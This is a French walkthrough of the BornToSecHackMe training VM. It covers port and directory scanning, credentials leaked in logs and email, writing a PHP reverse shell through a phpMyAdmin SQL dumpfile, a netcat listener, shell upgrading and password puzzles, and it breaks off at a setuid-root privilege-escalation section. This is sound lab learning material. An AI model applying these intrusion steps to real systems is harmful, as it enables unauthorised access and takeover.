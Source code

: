 # nmap
On commence par scanner tous les ports réseaux de la machine, pour identifier les potentielles voies d'accès : `nmap -p- <IP>` :
```
Not shown: 65529 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

# dirb
Rien d'intéressant sur le site HTTP (port 80), et il n'y a rien à la racine HTTPS.  
On va donc utiliser [dirb](https://tools.kali.org/web-applications/dirb) pour déterminer les dossiers existants : `dirb https://<IP> /usr/share/wordlists/dirb/common.txt`. On trouve `/forum`, `/phpmyadmin` et `/webmail`. Commençons par le forum, puisque c'est le seul à ne pas nous imposer de nous connecter.

# forum
En arrivant sur le forum ([MyLittleForum](https://mylittleforum.net/) - [v2.3.4](https://www.cvedetails.com/version/288534/Mylittleforum-My-Little-Forum-2.3.4.html)), on remarque tout de suite un topic intéressant « Probleme login ? », qui contient des logs d'authentification du serveur. En fouillant, on tombe sur le passage suivant :
```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```
Grâce à cette faute de frappe, on obtient notre premier couple login/mot de passe : `lmezard | !q\]Ej?*5K5cy*AJ`. En testant, on se rend compte que ces identifiants nous permettent de nous connecter au forum, et de trouver ainsi l'adresse courriel `laurie@borntosec.net`.

# webmail
Avec `laurie@borntosec.net | !q\]Ej?*5K5cy*AJ`, on peut se connecter au webmail ([SquirrelMail](https://www.squirrelmail.org/) - [v1.4.22](https://www.cvedetails.com/version/212608/Squirrelmail-Squirrelmail-1.4.22.html)). En plus d'un enthousiasme débordant pour Windev, on trouve surtout les identifiants de la base de données :
```
Hey Laurie,
You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
Best regards.
```

# phpMyAdmin
On est root sur la base de données, on peut s'arrêter là :tada:  
.  

..  

...  

Plus sérieusement, la prochaine étape est de parvenir à convertir notre accès à la BDD en accès à la machine elle-même. La piste la plus prometteuse pour cela passe par la mise en place d'un reverse shell, ce qui nous permettrait de nous connecter à la machine en tant que `www-data`. Puisque l'on sait que le serveur interprète le PHP, nous allons utiliser un [script de reverse shell en PHP](https://github.com/pentestmonkey/php-reverse-shell).  
Il faut commencer par trouver un dossier disposant des droits d'écriture nécessaires pour pouvoir déposer et exécuter notre script. La [documentation d'installation](https://github.com/ilosuna/mylittleforum/wiki/Installation) de MyLittleForum nous pointe dans la direction du dossier `/forum/templates_c` :
> Depending on your server configuration the write permission of the subdirectory `templates_c` (CHMOD 770, 775 or 777) and the file `config/db_settings.php` (CHMOD 666) might need to be changed in order that they are writable by the script

On va donc créer une table `phpshell`, contenant une colonne de type VARCHAR et de taille 10000. Dans cette colonne, nous allons insérer le contenu de notre script de reverse shell (en adaptant l'adresse IP et le port). Et utiliser la commande SQL `SELECT * INTO dumpfile '/var/www/forum/templates_c/reverse.php' FROM phpshell;` pour exporter ce contenu.  
En visitant l'URL `https://<IP>/forum/templates_c/` depuis notre navigateur, nous voyons bien notre script `reverse.php`. Avant de l'exécuter, il faut simplement lancer un listener [netcat](https://en.wikipedia.org/wiki/Netcat) depuis la VM Kali : `nc -l -p 4444` ; une fois le script exécuté, notre listener nous affiche bien une invite de commande bash, en tant que `www-data`.

# reverse shell
Notre shell actuel est fonctionnel, mais pas très pratique (pas d'historique ou d'autocomplétion). Nous allons donc faire le nécessaire gagner en confort (cf [Méthode 3](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)) :
- `python -c 'import pty; pty.spawn("/bin/bash")'` pour lancer un shell bash
- <kbd>Ctrl+Z</kbd> pour mettre notre reverse shell en arrière plan
- `stty raw -echo` pour passer notre stty en mode echo
- `fg` pour ramener notre reverse shell au premier plan
- `reset` pour réinitialiser le terminal  

`ls -l /` nous apprend que `/home` est propriété de l'utilisateur `www-data`. On y trouve bien évidemment les dossiers de chacun des utilisateurs de la machine, mais nous ne pouvons y accéder (faute de droits). Seul le dossier `LOOKATME` nous est accessible ; il ne contient qu'un fichier `password` :
```
lmezard:G!@M6f4Eatau{sF"
```
Ces identifiants nous permettent de nous connecter en FTP, ou de faire un `su` pour accéder à `/home/lmezard`.

# ftp
On se connecte avec la commande `ftp <IP>` et les identifiants que nous venons d'obtenir. Le dossier courant ne contient que deux fichiers (`README` et `fun`), que nous téléchargeons avec la commande FTP `get`. On peut ensuite se déconnecter du FTP et se pencher sur ces nouveaux fichiers.  
Sans surprise, `README` contient la marche à suivre :
```
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```
`file fun` nous apprend qu'il s'agit d'un archive tar. Elle contient des bribes d'un fichier .c, disséminées dans plusieurs centaines de fichiers. Pour gagner du temps, nous avons développé un [script python](/scripts/nofun.py) pour débrouiller la chose, et nous permet d'obtenir :
```
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
```
Notre nouvel identifiant est donc `laurie | 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`.

# laurie
On se connecte avec `ssh laurie@<IP>`. Le dossier utilisateur ne contient que deux fichiers : `README` et `bomb`.  
`cat README` :
```
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```
`bomb` est un binaire, nous demandant de trouver six mots de passe successifs pour la désamorcer et passer à l'étape suivante.

## `bomb`

### Étape 1

# thor
On a un `README` :
```
Finish this challenge and use the result as password for 'zaz' user.
```
Et un fichier `turtle` qui contient des instructions de dessins (en pseudocode), à l'image de ce qui a été popularisé par le [langage LOGO](https://en.wikipedia.org/wiki/Logo_(programming_language)#Turtle_and_graphics).  
En adaptant la syntaxe du fichier [en LOGO](/scripts/turtle_logo) et à l'aide d'un [interpréteur en ligne](http://lwh.free.fr/pages/prog/logo/logo.htm), on obtient les lettres suivantes (en utilisant les lignes vides comme séparateurs de caractère) : `SLASH`.  
Le fichier `turtle` se conclut par un petit indice : `Can you digest the message? :)`. C'est une référence au *message digest* qui en cryptographie est la valeur de sortie d'une fonction de hash. La fonction de hash la plus connue étant MD5, nous obtenons la valeur `646da671ca01bb5d84dbb5fb2238dc8e`, qui nous permet bien de nous connecter en SSH avec l'utilisateur `zaz`.

# zaz
On a un exécutable `exploit_me`, dont le [`suid`](https://en.wikipedia.org/wiki/Setuid) a été défini à l'utilisateur `root` (on peut le confirmer avec `stat exploit_me`). Cela signifie que ce binaire s'exécutera toujours comme s'il avait été lancé par `root` peu importe l'utilisateur ayant réellement lancé la commande. Il va de soi que ce genre de binaire est très intéressant pour obtenir une [élévation de privilège](https://en.wikipedia.org/wiki/Privilege_escalation) (par exemple pour lancer `/bin/bash` en tant que `root`).

## `exploit_me`